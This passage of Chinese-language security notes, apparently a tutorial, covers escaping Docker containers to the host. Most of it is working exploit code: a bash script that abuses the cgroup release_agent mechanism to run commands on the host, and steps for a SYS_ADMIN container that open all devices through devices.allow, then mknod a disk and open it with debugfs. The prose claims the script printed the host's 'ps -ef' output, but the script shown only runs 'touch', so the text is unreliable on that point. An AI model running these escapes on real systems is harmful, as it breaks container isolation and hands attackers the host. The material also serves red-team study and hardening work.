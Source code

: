 运行1-host-ps.sh逃逸到宿主机上执行命令

```plain
###1-host-ps.sh

#!/bin/bash
set -uex
#创建memory子系统的cgroup
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x


echo 1 > /tmp/cgrp/x/notify_on_release

#从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "touch /tmp/success > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"


cat "/output"
```

成功获取宿主机ps -ef内容，并打印

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665591946663-faa20960-36af-441f-995b-224104ecae1e.png)

## SYS_ADMIN
### 创建 cgroup
创建device cgroup，使用mknod 创建设备文件进行逃逸

```plain
#创建sys_admin权限容器
docker run --rm -it --cap-add=sys_admin ubuntu /bin/bash

#创建device子系统的cgroup
mkdir /tmp/dev
mount -t cgroup -o devices devices /tmp/dev/

#寻找当前容器cgroup的路径
cat /proc/self/mountinfo   | grep etc/
find /tmp/dev -name "devices.allow" | grep d5d77728bf05d32c6ac9f18d548ae92a3c04e8d0b01407dd9fa2678dc4f0b7dd

#修改当前已控容器 cgroup 的 devices.allow，此时容器内已经可以访问所有类型的设备
echo a >
/tmp/dev/docker/b76c0b53a9b8fb8478f680503164b37eb27c2805043fecabb450c48eaad10b57/devices.allow

#使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问
mknod near b 253 1
debugfs -w near
```
